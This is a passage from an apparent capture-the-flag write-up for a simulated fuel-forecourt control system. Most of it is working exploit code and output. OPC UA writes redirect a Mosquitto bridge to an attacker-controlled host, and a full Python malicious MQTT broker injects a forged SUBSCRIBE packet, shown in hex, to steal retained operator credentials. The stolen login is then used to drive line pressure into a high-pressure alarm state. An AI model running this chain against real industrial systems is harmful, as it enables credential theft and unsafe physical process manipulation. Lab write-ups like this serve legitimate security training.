      AlarmHighLevel
      AlarmLowLevel
      AlarmFlowLoss
      FlagText
  Control
    Bridge
      TargetHost
      TargetPort
      Status
    Auth
      DiagnosticsChallenge
```

```text
ns=2;s=Site.Control.Bridge.TargetHost => regional-broker.internal
ns=2;s=Site.Control.Bridge.TargetPort => 1884
ns=2;s=Site.Control.Bridge.Status => idle
ns=2;s=Site.Control.Auth.DiagnosticsChallenge => 16C9EB
ns=2;s=Site.IO.Outputs.SetpointKpa => 240.0
ns=2;s=Site.IO.Status.FlagText =>
ns=2;s=Site.IO.Status.AlarmHighPressure => False
ns=2;s=Site.IO.Inputs.LinePressureKpa => 246.9
```

This is the key enumeration checkpoint. Before the bridge is touched, the flag node already exists but is empty, the diagnostics challenge can be cross-checked from OPC UA, and the bridge target nodes show the default `regional-broker.internal:1884` endpoint that must be replaced.


The two writes that matter are:

```text
ns=2;s=Site.Control.Bridge.TargetHost
ns=2;s=Site.Control.Bridge.TargetPort
```

The attack writes `host.docker.internal` and `1884`. Conceptually this is not a data-only change. It is a control-plane pivot that forces the site's Mosquitto bridge to reconnect to infrastructure we control. The values are read back immediately after writing them because OPC UA write success does not by itself prove that the underlying process consumed the new configuration.

**Python snippet: write the bridge target, then verify the values**

```python
node_host = client.get_node("ns=2;s=Site.Control.Bridge.TargetHost")
node_port = client.get_node("ns=2;s=Site.Control.Bridge.TargetPort")

node_host.set_value("host.docker.internal")
node_port.set_value(1884)

assert node_host.get_value() == "host.docker.internal"
assert int(node_port.get_value()) == 1884
```

The strongest confirmation is twofold: the read-back values match the attacker endpoint, and the HMI or process status shows the broker restarting and reconnecting. If writes are denied, the most likely cause is that the certificate did not land in the engineer role correctly.

---

### Step 7 - Prepare the Attacker-Controlled Broker Endpoint

At this point the bridge target has been repointed but the exploit still needs something listening on `1884` to receive the reconnect. This listener is not the vulnerability by itself; it is the infrastructure needed to become the remote endpoint of the site bridge. The important design choice is that it behaves like a minimal MQTT broker rather than like a raw TCP sink. It must accept the bridge's `CONNECT`, reply with `CONNACK`, keep the session alive, and then inject its own forged `SUBSCRIBE` back across that same socket.

If nothing is already listening when the PLC restarts Mosquitto, the bridge reconnect fails and the exploit loses its position inside the trust boundary.

The minimal listener shown in the next step should already be running before the bridge reconnect is triggered. There is no target-side confirmation yet. Success here is simply that the listener is bound locally and ready to accept the incoming bridge connection.

---

### Step 8 - Accept the Bridge and Inject a Forged `SUBSCRIBE`

This is the exploit step. After the bridge reconnects, the attacker broker receives an inbound TCP session from the site broker. The site broker begins by sending a standard MQTT `CONNECT`. The attacker replies with `CONNACK`, which moves the site broker into the active session state. At this point the bridge is alive, and the attacker now speaks *back* across that same bridge socket.

Instead of waiting for the site broker to decide what to subscribe to, the attacker proactively sends a client-only `SUBSCRIBE` packet for the internal credential topic from the server side of the bridge. The attack uses the exact topic `fleet/site-042/internal/hmi/operator-credentials` instead of a wider wildcard. That makes the exploit quieter and proves that arbitrary internal reads are possible even without subscribing to an entire subtree.

The message sequence on the wire is:

```text
Site broker -> CONNECT
Attacker    -> CONNACK
Attacker    -> SUBSCRIBE fleet/site-042/internal/hmi/operator-credentials
Site broker -> SUBACK
Site broker -> PUBLISH {"username":"operator","password":"..."}
```

The exact packet used in the exploit is:

```text
82 35 00 01 00 30 66 6c 65 65 74 2f 73 69 74 65 2d 30 34 32 2f 69 6e 74 65 72 6e 61 6c 2f 68 6d 69 2f 6f 70 65 72 61 74 6f 72 2d 63 72 65 64 65 6e 74 69 61 6c 73 00
```

That frame decodes as follows:

- `0x82` is `SUBSCRIBE` with the required fixed-header flags.
- `0x35` is the remaining length, here `53` bytes.
- `0x0001` is the packet identifier.
- `0x0030` is the topic length, here `48` bytes.
- The next 48 bytes are the UTF-8 topic string.
- The final `0x00` requests QoS 0.

**Python snippet: minimal malicious bridge endpoint**

```python
import json
import socket


TOPIC = "fleet/site-042/internal/hmi/operator-credentials"


def recv_exact(sock, size):
    buf = b""
    while len(buf) < size:
        chunk = sock.recv(size - len(buf))
        if not chunk:
            raise ConnectionError("socket closed")
        buf += chunk
    return buf


def read_varint(sock):
    value = 0
    multiplier = 1
    while True:
        byte = recv_exact(sock, 1)[0]
        value += (byte & 0x7F) * multiplier
        if not (byte & 0x80):
            return value
        multiplier *= 128


def encode_varint(value):
    out = bytearray()
    while True:
        byte = value % 128
        value //= 128
        if value:
            byte |= 0x80
        out.append(byte)
        if not value:
            return bytes(out)


def read_packet(sock):
    first = recv_exact(sock, 1)[0]
    remaining = read_varint(sock)
    payload = recv_exact(sock, remaining)
    return first, payload


def build_connack():
    return b"\x20\x02\x00\x00"


def build_suback(packet_id):
    return b"\x90\x03" + packet_id.to_bytes(2, "big") + b"\x00"


def build_pingresp():
    return b"\xD0\x00"


def build_subscribe(topic, packet_id=1):
    topic_bytes = topic.encode()
    variable_header = packet_id.to_bytes(2, "big")
    payload = len(topic_bytes).to_bytes(2, "big") + topic_bytes + b"\x00"
    remaining = encode_varint(len(variable_header) + len(payload))
    return b"\x82" + remaining + variable_header + payload


def parse_publish(first, payload):
    qos = (first >> 1) & 0x03
    topic_len = int.from_bytes(payload[:2], "big")
    topic = payload[2:2 + topic_len].decode()
    offset = 2 + topic_len
    if qos:
        offset += 2
    data = payload[offset:]
    return topic, data


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as server:
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    server.bind(("0.0.0.0", 1884))
    server.listen(1)
    conn, _ = server.accept()
    with conn:
        while True:
            first, payload = read_packet(conn)
            if (first >> 4) == 1:   # CONNECT from the site bridge
                break

        conn.sendall(build_connack())
        conn.sendall(build_subscribe(TOPIC))

        while True:
            first, payload = read_packet(conn)
            packet_type = first >> 4

            if packet_type == 8:  # SUBSCRIBE from site side, acknowledge it
                packet_id = int.from_bytes(payload[:2], "big")
                conn.sendall(build_suback(packet_id))
            elif packet_type == 12:  # PINGREQ
                conn.sendall(build_pingresp())
            elif packet_type == 3:   # PUBLISH
                topic, data = parse_publish(first, payload)
                if topic == TOPIC:
                    creds = json.loads(data.decode())
                    print(creds)
                    break
```

This works because the site broker interprets the packet in the context of its outbound bridge session. It does not ask "should the remote peer on an `out` bridge be allowed to issue a new subscription?" It simply parses `SUBSCRIBE`, sees a bridge context, short-circuits the ACL path, and installs the subscription. The attacker broker has effectively turned a one-way export bridge into a bidirectional internal read primitive.

The confirmation is immediate and very strong. If the bridge exploit succeeds, the site broker soon responds with a retained `PUBLISH` for the credential topic. If nothing arrives, either the bridge never connected, the attacker did not send a valid `CONNACK`, or the `SUBSCRIBE` packet was malformed.

**Validated bridge exploit output**

```text
+ Start malicious mqtt
| - listen_port: 1884
| - internal_topic: fleet/site-042/internal/hmi/operator-credentials
| - subscribe_payload_hex: 823500010030666c6565742f736974652d3034322f696e7465726e616c2f686d692f6f70657261746f722d63726564656e7469616c7300
| - subscribe_packet:
| ! type: SUBSCRIBE (8)
| ! flags: 0x2
| ! remaining_length: 53
| ! packet_id: 1
| ! topic_length: 48
| ! topic: fleet/site-042/internal/hmi/operator-credentials
| ! qos: 0
| ! payload_bytes: 1
+ Connection of server to our bridge
| - bridge_peer: 127.0.0.1:38966
```

---

### Step 9 - Capture the Operator Credentials

The internal credential topic contains a retained JSON payload. Because the site broker now thinks the bridge session is subscribed legitimately, it forwards the stored credentials immediately. No race is required and no operator interaction is needed. This is the cleanest part of the exploit chain because retained MQTT removes the need to wait for a new event to happen.

**Expected message:**

```json
{"username":"operator","password":"<random>"}
```

**Python snippet: extract and validate the credential object**

```python
topic, data = parse_publish(first, payload)
if topic != "fleet/site-042/internal/hmi/operator-credentials":
    raise RuntimeError(f"unexpected topic: {topic}")

creds = json.loads(data.decode())
username = creds.get("username")
password = creds.get("password")

if username != "operator" or not password:
    raise RuntimeError("operator credential payload not recovered")

print(f"{username}:{password}")
```

The attack blocks until it receives a `PUBLISH` on the exact credential topic, then decodes the JSON. A correct message containing username `operator` is the confirmation that the bridge exploit crossed the intended trust boundary successfully. If the topic matches but the payload is empty or non-JSON, the wrong internal object was targeted.

**Validated credential capture**

```text
+ Retireval of operator password
| - username: operator
| - password: 7Tc4UlfCxj7Z
```


---

### Step 10 - Use the Operator HMI Account to Force High Pressure

With the operator password recovered, the attack moves back to the HMI. This step is operational rather than structural: the goal is to drive the simulated forecourt process into a state that the challenge marks as unsafe. The operator account is allowed to change the pressure setpoint, and the attack uses `265.0 kPa`. That value is intentionally above the alarm threshold.

The key idea is that the process does not jump instantly. The pressure variable trends toward the configured setpoint over time. That means a successful login alone is not enough; the attacker must choose a value that guarantees the process converges into the alarm region and then wait for the system to settle. Choosing a marginal value would create unnecessary uncertainty because the process model may not overshoot or converge quickly enough.

**Python snippet: re-enter the HMI with operator credentials and raise the setpoint**

```python
operator = HmiSession()
operator.read_until("Username:")
operator.send_line(username)
operator.read_until("Password:")
operator.send_line(password)
operator.read_until("Selection>")

operator.send_line("8")       # pressure setpoint menu entry
operator.read_until("New pressure setpoint")
operator.send_line("265.0")

screen = operator.io.recvrepeat(2.0).decode("utf-8", "replace")
if "Press Enter to return" not in screen:
    raise RuntimeError("setpoint write did not complete cleanly")
```

Success is visible in two places. The HMI records the setpoint change in its event history, and the live process display eventually enters the high-pressure alarm state. The final flag read should not be attempted before the alarm is actually active.

**Validated operator action and process effect**

```text
+ Change setpoint
| - setpoint: 265.0
```

```text
CONTROL SUMMARY

Control Mode       AUTO
Setpoint           265.0 kPa
Pump Feedback      RUN
Pump Speed         51.8 %
Valve Position     39.6 %
Active Alarms      HI_PRESS
OPC UA Trust       GUEST
```

```text
PROCESS VISUALIZATION

HIGH PRESSURE ALARM - INITIATE SHUTDOWN
Pressure Gauge     [####################..]  272.0 kPa
Flow Rate           132.1 L/min
Setpoint            265.0 kPa
Delta                +7.0 kPa
Pump Speed           51.6 %
Bridge State       restart issued: host.docker.internal:1884
```



---

### Step 11 - Read the Flag from OPC UA

The last step returns to OPC UA. Earlier enumeration already revealed that the flag node exists, which is important because it prevents blind searching after the final state change. Once the high-pressure alarm condition is true, the same node that was previously empty now exposes the flag through:

```text
ns=2;s=Site.IO.Status.FlagText
```

This node is empty before the unsafe state is reached, which is why the attack polls rather than reading only once. Any valid certificate that can authenticate to OPC UA is sufficient for this read in practice, and the engineer certificate installed earlier already satisfies that requirement.

**Python snippet: poll the flag node until the alarm-driven flag text appears**

```python
import time


flag_node = client.get_node("ns=2;s=Site.IO.Status.FlagText")

for _ in range(25):
    flag = str(flag_node.get_value() or "").strip()
    if flag:
        print(flag)
        break
    time.sleep(1.0)
else:
    raise RuntimeError("flag node still empty")
```

The confirmation is the flag string itself. If the node is still empty, the pressure alarm has not latched yet or the system has not finished updating the status variable.

**Validated final output**

```text
+ Retrieve flag via opcua
| - node: ns=2;s=Site.IO.Status.FlagText
| - flag: HTB{f4k3_f14g_f0r_t3st1ng}
```
